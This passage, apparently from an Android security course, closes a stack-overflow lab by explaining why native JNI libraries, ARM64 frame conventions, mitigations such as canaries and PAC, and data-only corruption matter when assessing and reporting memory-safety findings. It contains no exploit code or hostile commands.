**Java and Kotlin are memory-safe; the code underneath them is not.** An Android app's Java layer
cannot produce a stack buffer overflow, because array accesses are bounds-checked by the runtime.
But every app of consequence ships native code: cryptography, media parsing, image decoding,
protobuf handling, obfuscation runtimes, DRM, game engines. All of it is C or C++, all of it has
stack frames exactly like the one you just took apart, and all of it is reachable from Java through
JNI. When you triage an APK, the `lib/arm64-v8a/*.so` files are where the memory-safety bugs live.

**Reading ARM disassembly requires knowing the frame convention.** Chapter
[18 — ARM](../../18-ARM/README.md) will show you dozens of listings. Without Part E of this lab,
`stp x29, x30, [sp, #-96]!` is noise; with it, that one instruction tells you the function is a
non-leaf, that its frame is 96 bytes, and that its return address is now stack data. Recognising the
prologue is also how you find function boundaries when symbols have been stripped, which they always
are.

**Mitigations are the vocabulary of a good report.** A finding that says "buffer overflow in
`libfoo.so`" is worth little. A finding that says "unbounded `strcpy` into a 64-byte stack buffer in
a non-leaf function; the binary is built with `-fstack-protector-strong` and PAC is active on the
target device, so the practical impact is a denial of service and a data-only corruption of the
adjacent length field rather than direct control-flow hijack" is worth a great deal. You can only
write the second version if you have measured the first by hand, as you did here.

**Data-only attacks are the realistic ones.** Part C — changing `authorised` without ever touching
the return address — is far more representative of modern impact than Part D. With canaries, NX,
ASLR, CFI and PAC deployed on a current Android device, hijacking control flow through a stack
overflow is genuinely difficult. Corrupting a flag, a length, a size, a pointer in an adjacent
struct, or a cached "signature verified" boolean is not, and none of those mitigations address it.
When you assess impact, ask what is *next to* the buffer before you ask whether you can reach the
return address.

**The debugging skills transfer directly.** `gdb` on the host becomes `lldb` against an Android
process, and `x/16gx $rsp` becomes the same command against `sp` on AArch64. Frida's
`Interceptor.attach` gives you `this.context.x30` and `this.context.sp` in a JavaScript callback,
which is the same data you read here in the debugger. See
[51 — Dynamic Analysis](../../51-DynamicAnalysis/README.md) and
[53 — Frida](../../53-Frida/README.md).

**Related chapters:** [19 — Memory](../../19-Memory/README.md) for the heap counterpart of this lab,
[15 — Native Code](../../15-Native-Code/README.md) for how these libraries get built and loaded, and
[71 — OWASP Mobile](../../71-OWASP-Mobile/README.md) for where memory-safety findings sit in the
MASVS taxonomy.
